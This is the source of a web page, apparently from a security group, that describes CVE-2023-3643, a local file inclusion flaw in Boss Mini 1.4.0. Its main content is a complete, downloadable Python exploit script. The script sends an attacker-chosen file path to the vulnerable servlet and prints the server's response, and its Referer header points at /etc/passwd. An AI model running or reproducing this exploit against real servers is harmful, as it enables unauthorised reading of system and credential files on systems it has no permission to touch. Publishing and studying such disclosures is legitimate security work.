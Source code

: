 ```yaml
---
layout: default
---
```


- ## Init
  <details><summary>Research</summary>
    <details><summary>Exploring IDOR with Bitwise Operators</summary>
    <blockquote>by vpr</blockquote></details>
    <details><summary>CVE-2023-3643</summary>
      <details><summary>Description <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3643" target="_blank"> <!></a></summary>
      <blockquote>
      A vulnerability was found in Boss Mini 1.4.0 Build 6221. It has been classified as critical. This affects an unknown part of the file boss/servlet/document. The manipulation of the argument path leads to file inclusion. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-233889 was assigned to this vulnerability.</blockquote></details>
    <details><summary>Exploit</summary>
      <pre>
      <code id="cve-2023-3643">
      # Exploit Title: Boss Mini 1.4.0 (Build 6221) - Local File Inclusion (LFI)
      # Date: 07/12/2023
      # Exploit Author: [nltt0] (https://github.com/nltt-br))
      # CVE: CVE-2023-3643


      '''
      _____       _                              _____ 
      /  __ \     | |                            /  ___|
      | /  \/ __ _| | __ _ _ __   __ _  ___  ___ \ `--. 
      | |    / _` | |/ _` | '_ \ / _` |/ _ \/ __| `--. \
      | \__/\ (_| | | (_| | | | | (_| | (_) \__ \/\__/ /
      \____/\__,_|_|\__,_|_| |_|\__, |\___/|___/\____/ 
                                  __/ |                 
                                |___/                  

      '''

      from requests import post 
      from urllib.parse import quote
      from argparse import ArgumentParser

      try:
          parser = ArgumentParser(description='Local file inclusion [Boss Mini]')
          parser.add_argument('--domain', required=True, help='Application domain')
          parser.add_argument('--file', required=True, help='Local file')

          args = parser.parse_args()
          host = args.domain
          file = args.file
          url = '{}/boss/servlet/document'.format(host)
          file2 = quote(file, safe='')

          headers = {
              'Host': host,
              'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0',
              'Content-Type': 'application/x-www-form-urlencoded',
              'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange',
              'Referer': 'https://{}/boss/app/report/popup.html?/etc/passwd'.format(host)
          }


          data = {
              'path': file2
          }

          try:
              req = post(url, headers=headers, data=data, verify=False)
              if req.status_code == 200:
                  print(req.text)

          except Exception as e:
              print('Error in {}'.format(e))   
            

      except Exception as e:
          print('Error in {}'.format(e))
      
      
      </code></pre>
      <button onclick="downloadCode('cve-2023-3643', 'CVE-2023-3643.py')">Download</button>
      
      </details>
      </details>
      <!-- <details><summary>.</summary></details> -->

<script>
  function downloadCode(codeBlockId, fileName) {
    const codeContent = document.getElementById(codeBlockId).innerText;
    const blob = new Blob([codeContent], { type: 'text/plain' });
    const url = URL.createObjectURL(blob);
    const a = document.createElement("a");
    a.href = url;
    a.download = fileName;
    document.body.appendChild(a);
    a.click();
    document.body.removeChild(a);
    URL.revokeObjectURL(url);
}

</script>


<br>
<br>
<a href="https://www.linkedin.com/company/calangos-security/" target="_blank"><img src="/assets/images/calangoss-icon2.png" width="100" height="68" style="display: block;
  margin-left: auto;
  margin-right: auto;
  ">
</a>